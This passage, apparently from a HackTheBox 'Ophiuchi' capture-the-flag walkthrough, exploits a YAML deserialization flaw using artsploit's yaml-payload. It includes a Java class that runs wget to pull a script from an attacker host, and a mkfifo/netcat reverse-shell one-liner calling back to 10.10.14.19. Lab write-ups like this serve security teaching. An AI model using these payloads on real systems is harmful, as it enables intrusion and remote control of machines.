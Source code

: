 We get redirected to a page stating that the feature has been temporarily disabled due to security reasons.

[![disabled.png](/img/ophiuchi/disabled.png)](/img/ophiuchi/disabled.png)

However looking on our webserver we can see a hit from the target trying to get the file we specified.

```php
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:31:25] code 404, message File not found
10.129.167.24 - - [03/Jul/2021 03:31:25] "GET /test HTTP/1.1" 404 -
```

Following the blogpost further, we can use artsploit's [yaml-payload repository](https://github.com/artsploit/yaml-payload) to generate payloads for rce on the server. 

Following the documentation for the tool we modify the `AwesomeScriptEngineFactory` function in the `src/artsploit/AwesomeScriptEngineFactory.java` file.  In a first step we will use it to upload the `shell` file we prepared to the `/tmp` directory of the webserver.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget 10.10.14.19/shell -O /tmp/revsh.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }
...[snip]..
```

`shell`
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7575 >/tmp/f
```
